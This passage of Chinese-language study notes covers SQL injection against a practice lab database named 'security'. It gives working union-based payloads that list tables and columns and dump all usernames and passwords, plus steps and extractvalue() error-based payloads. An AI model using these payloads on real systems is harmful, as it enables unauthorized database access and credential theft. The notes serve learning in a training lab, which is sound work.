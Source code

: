 group_concat()

确保所有查询信息（所有表）能放到一行显示出来

id=0' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()[即'security']--+

查找数据库security中数据表users的列名

id=0' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users'--+

或者

id=0' union select 1,(需要查询的信息),3--+

#### 查询最终目标
id=0' union select 1,group_concat(username,'~',password),3 from users--+
~用来区分数据

### Union注入--数字型注入
1. 确定数字型还是字符型

2. 使用group by的二分法判断union语句中前一个查询的列数

3. 优化语句，将id改为一个不存在的数字

4. 使用select语句，查询靶机数据库库名

5. 使用select语句，查询靶机所有表名

6. 使用select语句，查询靶机所有列名

7. 查询所有用户名密码

### 报错注入
通过报错信息获取数据的方法。

用户在前台页面输入检索内容，后台将前台页面上输入的检索内容无加区别的拼接成sql语句，送给数据库执行。数据库将执行的结果返回给后台，后台将数据库执行的结果无加区别的显示到前台页面上。

后台对于输入输出的合理性没有做检查（两个无加区别）

即构造语句，让错误信息中可以显示数据库内容的查询语句，返回报错提示中包含数据库的内容

#### extractValue()
函数extractValue()包含两个参数 第一个 XML文档对象名称  第二个 路径
```
EXTRACTVALUE(xml_target, xpath_expr)

如
select extractvalue(doc,'/book/title') from xml;
```

其中xml对象对象名称不重要，可以随便填

关键是将路径前的'/'换为'~'，可以实现报错，显示报错信息，对路径进行修改后，获得我们想要的信息

```
select extractvalue(doc,'~book/title') from xml;
```
这里的~可以写作ascll编码的0x7e，同时修改路径
concat就是将两个内容拼接在一起
```
select extractvalue(doc,concat(0x7e,(select database()))) from xml;
```
